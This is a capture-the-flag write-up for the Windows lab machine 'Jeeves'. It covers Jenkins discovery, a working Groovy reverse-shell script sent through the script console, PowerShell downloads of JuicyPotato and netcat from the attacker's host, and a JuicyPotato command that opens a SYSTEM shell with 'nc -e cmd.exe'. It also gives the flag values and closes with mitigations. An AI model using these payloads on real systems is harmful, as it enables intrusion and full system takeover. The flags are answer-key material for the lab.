




# Machine Information

| **IP Address**       | 10.10.14.102  |
| -------------------- | ------------- |
| **Operating System** | Windows       |
| **Hostname**         | JEEVES        |
| **Domain**           | Workgroup     |
| **Release Date**     | November 2017 |
| **Difficulty**       | Medium        |

---
# Machine Description

Jeeves is a medium-difficulty Windows machine that showcases multiple attack vectors against a system running Jenkins CI/CD server. The exploitation path involves discovering a hidden web application, uploading malicious code to achieve remote code execution, and then leveraging Windows privilege escalation techniques to achieve System-level access. The machine highlights the importance of proper access controls on sensitive services and demonstrates the dangers of overly permissive privilege configurations.

---
# Exploitation Summary

The attack chain involved:

1. **Service Discovery**: Identifying Jenkins running on a non-standard port (50000)
2. **Directory Fuzzing**: Discovering the Jenkins interface at `/askjeeves`
3. **Code Execution**: Uploading a malicious Groovy script to achieve remote code execution
4. **Initial Access**: Obtaining a reverse shell as the `kohsuke` user
5. **Privilege Enumeration**: Identifying the `SeImpersonate` privilege
6. **Privilege Escalation**: Using JuicyPotato exploit to escalate to SYSTEM privileges
7. **Flag Extraction**: Retrieving both user and root flags, with the root flag hidden in an NTFS alternate data stream

---
# Detailed Exploitation Steps

## Road to User flag

##### ***Phase 1: Initial Network Reconnaissance and Service Discovery

I began by performing a comprehensive network scan to identify all services running on the target machine:

```
$ nmap 10.10.14.102 -Pn -sV

...SNIP...

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT

...SNIP...
```

The presence of a Jetty web server on port 50000 caught my attention, as this is an unusual port for a standard web service. Combined with the standard IIS service on port 80, this suggested a specialized application was running on the non-standard port.
##### ***Phase 2: Web Service Enumeration***

I investigated the IIS service on port 80 first:



When i searched for something like "test" or anything else, the response was an image to similute a DMBS response and not a real web page:


So, the service was not vulnerable to SQLi. More importantly, I needed to focus on the Jetty service running on port 50000. I performed directory fuzzing on the Jetty service to discover hidden paths:

```
$ gobuster dir -u http://10.10.14.102:50000 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
```

The fuzzing revealed the presence of `/askjeeves`, which appeared to be a Jenkins interface path.
##### ***Phase 3: Jenkins Discovery and Analysis***

Navigating to `http://10.10.14.102:50000/askjeeves`, I discovered a Jenkins CI/CD server. Jenkins is a popular open-source automation server used for building, testing, and deploying software. The critical finding was that Jenkins had a publicly accessible script console at `/askjeeves/script`, which allowed arbitrary Groovy script execution. 



This script console is typically protected by authentication, but in this case, it appeared to be accessible without credentials.
##### ***Phase 4: Remote Code Execution via Groovy Script***

I crafted a malicious Groovy script that would establish a reverse shell connection back to my attacking machine. The script leverages Java's ProcessBuilder and Socket classes to create an interactive command prompt:

```
String host="10.10.14.102";
int port=8888;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
  while(pi.available()>0)so.write(pi.read());
  while(pe.available()>0)so.write(pe.read());
  while(si.available()>0)po.write(si.read());
  so.flush();
  po.flush();
  Thread.sleep(50);
  try {p.exitValue();break;}
  catch (Exception e){}
};
p.destroy();
s.close();
```

I set up a netcat listener on my attacking machine:

```
$ nc -lvnp 8888
```

I submitted the malicious Groovy script through the Jenkins script console interface at `/askjeeves/script`. 



Upon execution, the script successfully established a reverse shell connection:

```
...SNIP...

connect to [10.10.14.102] from (UNKNOWN) [10.10.14.102] 49676

...SNIP...
```
##### ***Phase 5: Get the flag***

I verified my access and determined the current user context:

```
C:\Users\Administrator\.jenkins>whoami  
whoami  
jeeves\kohsuke
```

I was executing as the `kohsuke` user, who is the default Jenkins service account on this installation. I navigated to the user's Desktop directory to retrieve the first flag:

```
C:\Users\Administrator\.jenkins>type user.txt  
```

<mark>User flag</mark>: `e3232272596fb47950d59c4cf1e7066a`

## Road to Root flag

##### ***Phase 1: Privilege Enumeration***

To plan my privilege escalation strategy, I enumerated the privileges assigned to the current user:

```
C:\Users\Administrator\.jenkins>whoami /priv

...SNIP...

Privilege Name                Description                               State      
============================= ========================================= ========  
SeShutdownPrivilege           Shut down the system                      Disabled  
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeUndockPrivilege             Remove computer from docking station      Disabled  
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled  
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The Critical Finding was the `SeImpersonate` privilege was enabled. This privilege allows a process to impersonate another user after authentication. While this privilege is commonly held by service accounts, it can be exploited using techniques like token impersonation if combined with a suitable exploit.
##### ***Phase 2: JuicyPotato Exploitation***

The `SeImpersonate` privilege, combined with running as a service account in a Windows 10 environment, makes the system vulnerable to the `JuicyPotato` exploit. `JuicyPotato` is a local privilege escalation tool that works by exploiting the Windows COM marshalling behavior to impersonate a SYSTEM-level token. I started a web server on my attacking machine and downloaded on the compromised machine `JuicyPotato` and the Windows version of `Netcat`:

```
$ python3 -m http.server 8000  
```

```
C:\Users\Administrator\.jenkins>powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.1  
02:8000/JuicyPotato.exe','C:\Users\kohsuke\Downloads\JuicyPotato.exe')"
```

```
C:\Users\Administrator\.jenkins>powershell -c "(New-Object Net.WebClient).DownloadFile('http://10.10.14.1  
02:8000/nc.exe','C:\Users\kohsuke\Downloads\nc.exe')"
```

I executed `JuicyPotato` with the following command:

```
C:\Users\Administrator\.jenkins>.\JuicyPotato.exe -l 53000 -p "c:\windows\system32\cmd.exe" -t * -a "/c C:\Users\kohsuke\Downloads\nc.exe 10.10.14.102 5000 -e cmd.exe"

...SNIP...

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53000
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

JuicyPotato works by setting up a local server that simulates a COM service on a specified port, then forces a legitimate, high-privileged COM service running as SYSTEM to connect to it. When the authentic COM service initiates the connection, its SYSTEM security token is passed directly to the fake JuicyPotato server. By using the `-t *` option, JuicyPotato captures this token and passes it to the `CreateProcessWithTokenW` API call. This allows it to spawn a new process (such as cmd.exe) by impersonating the highly privileged `SYSTEM` account. As we can see, the exploit executed successfully.
##### ***Phase 3: System-Level Access***

The JuicyPotato exploit successfully impersonated a `SYSTEM` token and executed my reverse shell command. On my listener, I received a connection with `SYSTEM` privileges:

```
C:\Windows\system32>whoami  
whoami  
nt authority\system
```
##### ***Phase 4: Get the flag***

With SYSTEM privileges, I navigated to the `Administrator`'s Desktop directory to try to retrieve the root flag:

```
C:\Windows\system32>type C:\Users\Administrator\Desktop\hm.txt
The flag is elsewhere.  Look deeper.
```

The file `hm.txt` indicated the flag was hidden somewhere on the system. I used the `/r` flag with the `dir` command to list Alternate Data Streams (ADS), a feature in NTFS (New Technology File System) that allows multiple data streams to be associated with a single file. This way, i found the root flag:

```
C:\Windows\system32>dir /r C:\Users\Administrator\Desktop

...SNIP...
 
34 hm.txt:root.txt:$DATA  

...SNIP... 
```

```
more < hm.txt:root.txt
```

==Root flag==: `afbc5bd4b615a60648cec41c6ac92530`

---
# Key Vulnerabilities Exploited

- **Unauthenticated Jenkins Script Console**: The script console at `/askjeeves/script` was publicly accessible without authentication, allowing arbitrary code execution
- **SeImpersonate Privilege**: The Jenkins service account possessed the `SeImpersonate` privilege, a known precursor to privilege escalation
- **Unpatched Windows 10**: The machine was vulnerable to the JuicyPotato exploit due to unpatched COM marshalling behavior
- **Inadequate Access Controls**: The Jenkins installation was running with minimal security configuration

---

# Conclusion

The Jeeves machine demonstrates how multiple misconfigurations combine to enable complete system compromise. From unauthenticated access to the Jenkins script console enabling remote code execution, to excessive privilege assignment on service accounts and unpatched Windows vulnerabilities, each stage exploited the previous misconfiguration. This emphasizes the importance of proper authentication, least-privilege access controls, timely security patching, and careful privilege assignment. To mitigate these vulnerabilities, organizations should always require authentication for sensitive services like Jenkins, particularly the script console which allows arbitrary code execution. Service accounts should operate with minimal necessary privileges, and dangerous privileges like `SeImpersonate` should be carefully evaluated and removed unless absolutely required. Windows systems must be kept current with security patches to prevent exploitation of COM marshalling vulnerabilities used by techniques like JuicyPotato. Network segmentation should restrict access to internal services like Jenkins to authorized users only, preventing external exploitation. Regular privilege audits should identify and remediate overly permissive configurations on service accounts. System administrators should also understand NTFS alternate data streams and implement monitoring to detect their usage for hiding sensitive information. This case study underscores that Windows security requires defense in depth, as layered misconfigurations create a chain leading to system-level compromise.

---

